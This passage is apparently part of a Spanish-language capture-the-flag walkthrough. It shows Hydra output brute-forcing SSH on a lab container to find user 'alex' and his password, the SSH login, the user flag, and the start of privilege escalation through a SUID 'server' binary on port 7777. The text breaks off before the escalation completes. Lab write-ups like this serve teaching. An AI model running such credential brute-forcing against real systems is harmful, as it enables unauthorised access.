Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-23 06:57:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 327 login tries (l:3/p:109), ~6 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: alex   password: emfUa
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-23 06:57:55
```

Por lo que vemos hemos sacados las credenciales del usuario `alex`, por lo que nos conectaremos por `ssh`.

### SSH

```shell
ssh alex@<IP>
```

Metemos como contraseña `emfUa` y estaremos dentro, leeremos la flag del usuario.

> user.txt

```
8d32849a53e71168af4cf5d7d03c8c53
```

## Escalate Privileges

Si listamos los archivos vemos que tenemos un archivo llamado `server` el cual tiene permisos `SUID` y si lo ejecutamos veremos lo siguiente:

```shell
./server
```

Info:

```
Servidor escuchando en el puerto 7777...
```

Por lo que se ve, esta escuchando por el puerto `7777` por lo que ya tenemos un vector de ataque con el otro archivo que nos descargamos anteriormente llamado `sender`, probaremos a ejecutar en nuestro `host` el archivo `sender` pasandole como puerto el `7777` y ver que recibe el `server`:

```shell
./sender <IP> 7777
```

Info:
